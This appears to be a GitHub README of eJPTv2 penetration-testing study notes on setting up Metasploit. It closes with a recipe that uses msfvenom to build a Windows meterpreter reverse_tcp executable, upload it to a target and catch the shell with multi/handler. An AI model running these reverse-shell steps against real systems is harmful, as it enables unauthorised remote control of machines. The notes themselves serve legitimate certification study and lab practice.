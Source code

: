 # EJPTv2_Notes

## SETTING UP METASPLOIT

### First run

1. make sure postgres is running 

```bash
root@kali:~# sudo systemctl start postgresql
```

2. initialize metasploit database

```bash
root@kali:~# sudo msfdb init
```

3. launch metasploit console

```bash
root@kali:~# msfconsole
```

### After first run

```bash
root@kali:~# sudo service postgresql start && msfconsole
```

### Setting global variable in msf

```bash
setg RHOSTS 10.10.10.10
```

## msfvenom X metasploit : reverse tcp
1. generate & save the payload to a file named `shell.exe`, for example:
   bash> `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4443 -f exe > shell.exe`

3. upload the generated `.exe` file to the target machine using whatever method you prefer.
4. from msfconsole, use the following command to interact with the vulnerable machine:
`use multi\handler && set PAYLOAD windows/meterpreter/reverse_tcp && set LHOST YOUR-IP && exploit`.